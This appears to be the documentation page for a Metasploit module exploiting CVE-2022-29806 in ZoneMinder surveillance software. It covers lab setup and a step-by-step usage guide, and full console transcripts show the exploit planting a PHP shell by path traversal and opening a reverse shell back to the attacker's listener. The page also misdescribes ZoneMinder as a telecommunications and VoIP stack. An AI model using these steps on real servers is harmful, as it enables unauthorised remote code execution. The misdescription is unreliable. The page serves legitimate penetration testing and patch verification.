 ## Description

This module exploits an arbitrary file write chained with a path traversal in the debug log file option in language settings that leads to a remote code execution in ZoneMinder surveillance software versions before 1.36.13 and before 1.37.11

More about the vulnerability detail: [CVE-2022-29806](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-29806).

The module will automatically use `php/reverse_perl` payload.

The module will check if authentication is enabled but Zoneminder does not enable the authentication by default.

## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:
* 1.36.4~64bit on Ubuntu 18.04
* 1.34.23~64bit on Debian 11.10

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/)
* [Installers](https://github.com/ZoneMinder/zoneminder/#installation-methods)
* [Docker](https://github.com/ZoneMinder/zmdockerfiles)

### Docker installation

```
docker run -d --rm -ti -p 1080:80 \
    -e TZ='Europe/London' \
    --shm-size="512m" \
    --name zoneminder \
    zoneminderhq/zoneminder:latest-ubuntu18.04
```
Navigate to [http:\//172.17.0.2/zm/index.php?view=privacy](http://172.17.0.2/zm/index.php?view=privacy) and click **APPLY** to activate the dashboard

### Enable authentication

To enable authentication for verification and scenarios, follow these steps:
1. Navigate to [http:\//172.17.0.2/zm/index.php?view=options](http://172.17.0.2/zm/index.php?view=options)
2. Tick the **OPT_USE_AUTH** option and click save
3. Login with the default password `admin:admin`
4. Navigate to [http:\//172.17.0.2/zm/index.php?view=options&tab=users](http://172.17.0.2/zm/index.php?view=options&tab=users) and change the admin password

## Verification Steps

1. Do: `use exploit/unix/webapp/zoneminder_lang_exec`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### USERNAME
The ZoneMinder username (default: admin)

### PASSWORD
The ZoneMinder password (default: admin)

## Scenarios
### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker

```
msf > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/rmdQiqoLFCsov.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:58932) at 2022-04-27 03:36:31 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker with authentication enabled

```
msf > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf exploit(unix/webapp/zoneminder_lang_exec) > set USERNAME admin
USERNAME => admin
msf exploit(unix/webapp/zoneminder_lang_exec) > set PASSWORD password
PASSWORD => password
msf exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/Cn3PqXcN9VlAR98.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51944) at 2022-04-27 18:53:14 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Failed exploitation due to invalid credentials

```
msf > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[-] Service found, but authentication failed
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable.
[*] Exploit completed, but no session was created.
```

